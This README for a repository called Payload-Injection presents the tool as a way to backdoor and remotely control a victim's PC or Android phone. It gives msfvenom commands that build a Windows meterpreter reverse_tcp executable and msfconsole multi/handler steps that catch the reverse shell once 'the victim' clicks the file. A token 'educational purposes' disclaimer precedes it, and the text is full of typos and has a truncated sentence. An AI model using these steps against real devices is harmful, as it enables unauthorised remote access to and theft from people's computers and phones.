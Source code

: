 +Warning!!
--------------------------------------------------------------------------------------------
Welcome everyone

This tool is for educational purposes only, and our goal is not to make people victims or cause any kind of e not responsible for any damages due to improper use


--------------------------------------------------------------------------------------------
+ About
--------------------------------------------------------------------------------------------
This is a payload creation machine Tool , To macke something like back door and so one to completely remote a PC or android phone Just one click on the file and u will be able to open a session and tunnel with your victim’s device with msfcosnsole Have a good time Good bye my friend …

--------------------------------------------------------------------------------------------
How to Download
--------------------------------------------------------------------------------------------
open you terminal
git clone https://github.com/Essam0o/Payload-Injection.git

--------------------------------------------------------------------------------------------
+How to Run
--------------------------------------------------------------------------------------------
After preparing your payload via Payload-injection tool you can open msfconsole and lunch your paylaod which has been created open your terminal as a root in any path and type

sodu su
msfvenom -p windows/meterpreter/reverse_tcp -f exe lhost = your ip lport = 4444 > FileName .exe
Then wait to complete download the file and check your path on your os
  
msfconsole
wiat proccess// 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost  " enter your ip "
set lport 4444 
run

 HERE WE DONE OF CREATING A VIRUS ALL U NEED TO WAIT THE VICTIM TO CLICK ON THE APK  OR EXE FILE


